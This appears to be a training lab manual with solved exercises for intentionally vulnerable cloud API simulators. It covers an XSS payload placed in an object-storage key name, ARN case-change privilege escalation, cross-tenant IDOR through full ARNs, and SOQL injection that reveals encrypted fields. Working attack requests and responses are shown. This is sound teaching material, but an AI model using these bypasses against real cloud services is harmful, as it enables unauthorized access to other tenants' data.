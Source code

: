 # Exercises

A walkthrough of some sample exercises is provided next. Each respective cloud API simulator also contains additional exercises for you to explore outside of this content.

Each exercise assumes that you have already setup the simulator servers and the respective client tools.

---

<details>
<summary>Cross-site Scripting with REST APIs</summary>

![image](xss-exercise-sample-screenshot.png)

From a web browser (connected with your HTTP MitM Proxy, Burp) navigate to:
> `http://localhost:9080/REST/API/endpoint.cgi`
- If you are using Firefox and your requests are not showing up in Burp try a URL like `http://localtest.me:9080/REST/API/endpoint.cgi`

Observe that the page renders a listing of files stored in a backend OpenStack Swift (Object Storage). In the first release for customers they could use the upload functionality of this page to upload files to the server for storage.

Observe that if you attempt to upload a file with a filename that does not comply to the restrictions that you are blocked. Feel free to try repeating a few malicious payloads via Burp in an attempt to inject XSS on the list page. During the first pen test the service was not found vulnerable to XSS.

##### Customer Version 2
Months later customers demanded a way to more easily bulk upload millions of their data files. The application was updated to allow customers to use the OpenStack cloud REST APIs to perform bulk uploads via the Swift service.

Our subsequent pen test will uncover that an attacker can bypass the filename character input validation and cause XSS to be exploited on the application.

### Useful concepts

1. The Swift CLI for the OpenStack SDK and REST API
   - https://docs.openstack.org/ocata/cli-reference/swift.html
1. Observe: Object Storage != Filesystem Storage nor the same limitations
   - https://docs.openstack.org/api-ref/object-store/index.html#objects
   - https://docs.openstack.org/swift/latest/api/object_api_v1_overview.html

### Baseline Start (QA)

We start by only performing legitimate, expected behaviors (i.e. inputs) of the functionality. This tells us if the service we are testing actually works as well as what a valid request looks like.

```shell
echo $USER > sample_object.txt

swift --insecure -A https://localhost:8888/auth/v1.0 -U system:root -K testpass upload fileuploads ./sample_object.txt

swift --insecure -A https://localhost:8888/auth/v1.0 -U system:root -K testpass upload fileuploads /etc/os-release
```

Observe on the application website (GUI) that the file uploads now appear.

You can also observe the traffic in your HTTP MitM proxy (Burp). You will noticed that there are two calls. One to authenticate with the client credentials and obtain a token. Another to perform the actual upload. In this case we are not attacking the authentication or authorization but instead already have credentials.

### Malicious Input Injection

We observed previously that uploading files via the web browser (HTML/HTTP form upload) resulted in strict validation of the permitted filenames. Is that the case with the standard SDK of the OpenStack REST API?

```shell
swift --insecure -A https://localhost:8888/auth/v1.0 -U system:root -K testpass copy fileuploads sample_object.txt -d '/fileuploads/easytest<script>alert("you been pwned")</script>forme'
```

Now observe the web UI result. You should see a simple (persistent) XSS payload execute.

Object Storage in the cloud is not strictly file storage. The key name of the object can be a wide range of byte sequences and not strictly characters.

ℹ️ In this example we used an API to copy an item already in the object storage but with a new key name. You could have also uploaded another file with a malicious name. The lesson is that you want to look for multiple possible API calls that were not considered by the application developers to cause unexpected behavior.
</details>

---

<details>
<summary>Authorization Bypass - Privilege Escalation</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/07-impersonation.md

Identity and access management (IAM) controls include policies that define permissions for the caller of the expected actions (APIs) and resources (IDs). These permissions can allow things or deny things based on a variety of conditional states.

A configuration mistake in a policy by the client/customer/tenant can result in unauthorized access to data or the ability to use the service in unwanted ways. This typically falls on the customer-shared responsiblity.

However, the cloud (or service) provider must also ensure that their systems correctly interpret both the policy documents and how it is applied to the user inputs. Failure to do so could result in unauthorized access to the tenant's data or privilege escalation.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@000000001111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:000000001111:CareForPets
```

You'll observe a success response from the service. This is because the psuedo-policy allows access to CareForPets. Reference https://github.com/Coalfire-Research/cazt/blob/main/trainee/iam_policies/cazt_scen7_impersonation.json

### Malicious Input Injection

The goal is to bypass the IAM policy through a flaw in the cloud vendor's (responsibility) system to achieve FullAdmin access.

Attempt the following API REST call:

```shell
gcloud cazt pet-sitter \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen7_impersonation@000000001111 \
    --format json \
    --arn=arn:cloud:iam:us-texas-9:000000001111:FullAdmin
```

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either
1. Verify that the request is visible in your HTTP MitM proxy (i.e. Burp)
1. The response should indicate that your request to the API was denied

##### Goal

The goal is to get a success response like the following:
```json
{
  "Message": "000000001111 using impersonation arn:cloud:iam:us-texas-9:000000001111:FullAdmin"
}
```

##### Attack Methodologies

1. Identify the input to attack
   - In this case "arn"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - One with the legit value CareForPets, the other FullAdmin
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?

##### Solution

Changing the case of the input value:

```http
POST /uat/petSitter HTTP/1.1
Host: cazt.gcloud.localtest.me:8443
user-agent: google-cloud-sdk gcloud/538.0.0 command/gcloud.cazt.pet-sitter invocation-id/9b7b5138daed4bf0a60c164e9d7cf11b environment/None environment-version/None client-os/LINUX client-os-ver/6.6.87 client-pltf-arch/x86_64 interactive/True from-script/False python/3.12.10 term/xterm-256color (Linux 6.6.87.2-microsoft-standard-WSL2)
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Authorization: Bearer Y2F6dF9zY2VuN19pbXBlcnNvbmF0aW9uQDAwMDAwMDAwMTExMQ==
Content-Length: 58
Content-Type: application/json

{"Arn": "arn:cloud:iam:us-Texas-9:000000001111:FullAdmin"}
```

```http
HTTP/1.1 200 OK
Server: BaseHTTP/0.6 Python/3.12.3
Date: Sat, 13 Sep 2025 17:20:20 GMT
Content-Type: application/json
Content-Length: 102

{
     "Message": "000000001111 using impersonation arn:cloud:iam:us-texas-9:000000001111:FullAdmin"
}
```

In this case the software bug in the API was that the policy authorization rules were applied with case sensitivity in parts that were case insensitive.

</details>

---

<details>
<summary>Authorization Bypass - IDOR / Confused Deputy</summary>

### Useful concepts

- Exercise scenario details
  - https://github.com/Coalfire-Research/cazt/blob/main/documentation/lab_manual/scenarios/02-cross_tenant.md

Identity and access management (IAM) controls include policies that define permissions defined by the customer/client/tenant owner. An expectation is that only the permissions the tenant chose to grant would permit access to their account data or resources.

The cloud (or service) provider must also ensure that their systems correctly interpret the policy documents, the inputs coming into an API, and whether the caller (tenant) was granted access. This applies for whether the caller is a member of the same tenant account or belongs to another tenant account.

### Baseline Start (QA)

From a terminal (connected to your proxy) run the following baseline (QA) command to verify that the service's API is working as expected:

```shell
gcloud cazt get \
    --api-endpoint-overrides=https://cazt.gcloud.localtest.me:8443/uat \
    --account=cazt_scen2_cross-tenant@123456789012 \
    --format json \
    --name=NotMyMoggy
```

For cloud APIs you will either observe an unauthorized response or a response that the item was not found (because it looked only in your own account which did not have it). In this case we notice that NotMyMoggy was created in the tenant account `000000002222` but the caller's credentials are only for account `123456789012`.

ℹ️ If you need to reset the sample data see [CAZT - Populate sample data](configuration.md#populate-sample-data)

### Malicious Input Injection

In your HTTP MitM proxy (Burp) review your previous get API call.

Note:
1. You must not change the `--account` value
   1. The attack is against authori**z**ation, not the authentication
   1. The attacker has only their own credentials, not anothers
   1. Do not change the HTTP authentication header either

You will see in the psuedo-IAM policy that it used a resource identifier that is longer than just a short id. The long-form of a resource ID can look like:
- `arn:cloud:cazt:REGION:ACCOUNTID:SomeResourceNameOnly`
- `//iam.googleapis.com/projects/PROJECT_ID/serviceAccounts/SERVICE_ACCOUNT_EMAIL`
- `/subscriptions/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx/resourceGroups/myResourceGroup/providers/Microsoft.Compute/virtualMachines/myVM`
- _it varies by the cloud provider_

##### Goal

The end goal is to call the GetMoggy API from the attacker's  `--account=cazt_scen2_cross-tenant@123456789012` to get the resource that belongs to the victim in account `000000002222`.

```json
{
  "ActivityLogObjectStorage": "moggylitterbox-000000002222",
  "CreatedAt": 1751213493,
  "Description": null,
  "Name": "NotMyMoggy"
}
```

##### Attack Methodologies

1. You may assume that the attacker has knowledge of any API resource nomenclature (ARNs) or resource names belonging to the target victim.
   1. IDs are not secrets nor should knowledge of the ID be the only access control
1. The attacker configures their own tenant account client with administrator (or * wildcard) permissions
   1. The attacker does not have any permissions granted by the target victim
   1. The attacker does control their own account so they would grant themselves (in their own tenant account) full admin
   1. This ensure that if the cloud service checks the caller's permissions to the API action only (but not the target resource input) it would not be blocked prematurely
1. Identify the input to attack
   - In this case "name"
1. Attempt fuzzing of the input value
   - Encode some characters with URL character encoding escapes
   - Try adding extra spaces at the beginning or end
   - Duplicate the key+value in the JSON
   - Change the value from a single string to an array of values
     - Which value is used for authorization versus the business logic?
   - Are the key names or values case sensitive?
1. Are there alternative aliases or conventions for defining the identifier?
   - MyShortID
   - arn:cloud:cazt:REGION:ACCOUNTID:MyShortID

##### Solution

```http
POST /uat/getMoggy HTTP/1.1
Host: cazt.gcloud.localtest.me:8443
user-agent: google-cloud-sdk gcloud/538.0.0 command/gcloud.cazt.get invocation-id/333a8c9144f44328a57c128fbd6bda1c environment/None environment-version/None client-os/LINUX client-os-ver/6.6.87 client-pltf-arch/x86_64 interactive/True from-script/False python/3.12.10 term/xterm-256color (Linux 6.6.87.2-microsoft-standard-WSL2)
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Authorization: Bearer Y2F6dF9zY2VuMl9jcm9zcy10ZW5hbnRAMTIzNDU2Nzg5MDEy
Content-Length: 61
Content-Type: application/json

{"Name": "arn:cloud:cazt:us-texas-9:000000002222:NotMyMoggy"}
```

Observe that the call was made from a user in account 123456789012, but the returned resource belonged to account 000000002222.

```http
HTTP/1.1 200 OK
Server: BaseHTTP/0.6 Python/3.12.3
Date: Sat, 13 Sep 2025 17:29:09 GMT
Content-Type: application/json
Content-Length: 214

{
     "Arn": "arn:cloud:cazt:us-texas-9:000000002222:NotMyMoggy",
     "Description": null,
     "CreatedAt": 1757781273,
     "ActivityLogObjectStorage": "moggylitterbox-000000002222",
     "Name": "NotMyMoggy"
}
```

In this case the API software bug was that it assumed only the short-form which it resolved as a relative alias to the full-length identifier. When supplied with an already resolved identifier it did not perform any resolution against the caller's account ID but just trusted the value given.

</details>

---

<details>
<summary>Encrypted Field Data Access Bypass - SOQL Injection</summary>

### Prerequisites

- Install Setup
  - https://github.com/Coalfire-Research/paas-cloud-goat
- You should be logged in using the standard user profile role
- Your web browser should already be connected to your HTTP MitM proxy (Burp)
- The PaaS Cloud Goat applciation has helpful documentation in the lab exercise pages as well

### Baseline Start (QA)

In the PaaS Cloud Goat "welcome" tab navigate to the "Encrypted Field" page

1. The cloud vendor manages the encryption and keys for the encrypted field feature
1. You will observe that the masked values of the encrypted fields correspond to the exact length of the clear-text data
   1. Think of the feature more as an ACL restriction
   1. By default even your Salesforce org administrator does not get access to encrypted fields
   1. There is a checkbox in the Salesforce configuration for granting access to view the data
      - However, this exercise will demo how to bypass the control without a customer misconfiguration
1. Observe on this screen that a Salesforce API change corrected a common developer mistake
   1. The API used to have a clear-text viewing method that was commonly misused and exposed the data
   2. Now the data appears masked regardless

### Malicious Input Injection

Navigate to the page "SOQL Injection - Variant 3" which will simulate a SOQL vulnerability in the application. Execute the default query and observe the request + response in your HTTP MitM proxy (Burp).

```
POST /apex/SOQLInjection3?isdtp=p1&sfdcIFrameOrigin=https://na-personal-dev-ed.develop.lightning.force.com HTTP/2
Host: na-personal-dev-ed--c.develop.vf.force.com
Cookie: ...REDACTED...
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: ...REDACTED...
Content-Type: application/x-www-form-urlencoded
Content-Length: 8103
Origin: https://na-personal-dev-ed--c.develop.vf.force.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4
Te: trailers

...REDACTED...
j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39=j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id45=Submit&com.salesforce.visualforce.ViewState=...REDACTED...000&com.salesforce.visualforce.ViewStateMAC=AG...REDACTED...%3D&com.salesforce.visualforce.ViewStateCSRF=VmpFPSxNakF5TlMwd09TMHhObFF4TlRvd01qb3dOQzR4TkRaYSxiRmw2U0pWVkFYMXlmZFNLYW5GQ1liSk9jWVZaVXZmOTZ5WVpIYnBNWC1JPSxNVFppTUdNeA%3D%3D
...REDACTED...
```

```
HTTP/2 200 OK
Date: Sat, 13 Sep 2025 15:02:22 GMT
Content-Type: text/html;charset=UTF-8
...REDACTED...

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html lang="en-US"><head><script src="/static/111213/js/perf/stub.js" type="text/javascript"></script><script type="text/javascript">window.Sfdc = window.Sfdc || {};
...REDACTED...
        <h2>Resulting Output</h2>

        <p>
            <pre>[Building__c (Id:a00aj000010xZfbAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Vault, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:42)]
[Building__c (Id:a00aj000010xZfcAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Satellite, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71478)]
[Building__c (Id:a00aj000010xZfdAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:HQ, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:123123)]
[Building__c (Id:a00aj000010xZfeAAE, OwnerId:005aj00000Jbl1pAAB, IsDeleted:false, Name:Bunker, CreatedDate:Fri Jul 25 17:46:21 GMT 2025, CreatedById:005aj00000Jbl1pAAB, LastModifiedDate:Fri Jul 25 17:46:21 GMT 2025, LastModifiedById:005aj00000Jbl1pAAB, SystemModstamp:Fri Jul 25 17:46:21 GMT 2025, EntryPIN__c:71927)]</pre>
        </p></div><div class="pbFooter secondaryPalette"><div class="bg"></div></div></div></div><script type="text/javascript">Sfdc.onReady(function(){
	SfdcApp && SfdcApp.Visualforce && SfdcApp.Visualforce.VSManager && SfdcApp.Visualforce.VSManager.vfPrepareForms(["j_id0:j_id35:j_id36:j_id37:j_id39"]);
...REDACTED...
```

The part of the request that you are interested in is the `&j_id0%3Aj_id35%3Aj_id36%3Aj_id37%3Aj_id39%3Aj_id43`. The input parameter name and path were assembled by the service framework for the developer. If you look at the Apex API controller itself it uses more friendly names such as `query`. If you know the Apex controller APIs parameter names you could use those as well:

```
query=SELECT+id%2Cownerid%2Cisdeleted%2Cname%2Ccreateddate%2Ccreatedbyid%2Clastmodifieddate%2Clastmodifiedbyid%2Csystemmodstamp%2Clastvieweddate%2Clastreferenceddate%2Centrypin__c+FROM+Building__c&querySOQL=Submit
```

Note that you must keep the session identifiers such as:
- com.salesforce.visualforce.ViewState
- com.salesforce.visualforce.ViewStateVersion
- com.salesforce.visualforce.ViewStateMAC
- com.salesforce.visualforce.ViewStateCSRF

##### Goal

The end goal is to retrieve the clear-text values of the encrypted fields.

##### Attack Methodologies

Modify the injectable SOQL query for the API /apex/SOQLInjection3.

We are interested in obtaining the encrypted field Ingredient from the `Secret Sauce` object. Since these are custom objects in Salesforce they will require appending `__c` to get their data schema names.

Take our original, unencoded query that retrieved information about buildings:
```sql
SELECT id,ownerid,isdeleted,name,createddate,createdbyid,lastmodifieddate,lastmodifiedbyid,systemmodstamp,lastvieweddate,lastreferenceddate,entrypin__c FROM Building__c
```

To validate if we've guessed or used the correct object schema name we use well known global attributes:

```sql
SELECT id FROM SecretSauce__c
```

Re-encode the query and submit it to the service. If you get results you know you have a valid query. Otherwise you may get an error page or an empty page.

##### Solution

Continuing with guessing the target schema attribute names we arrive at:

```sql
SELECT id,name,SecretIngredient__c FROM SecretSauce__c
```

We observe that even though the user did not have permission to the encrypted field the injection vulnerability allowed us to access the clear-text data.

</details>
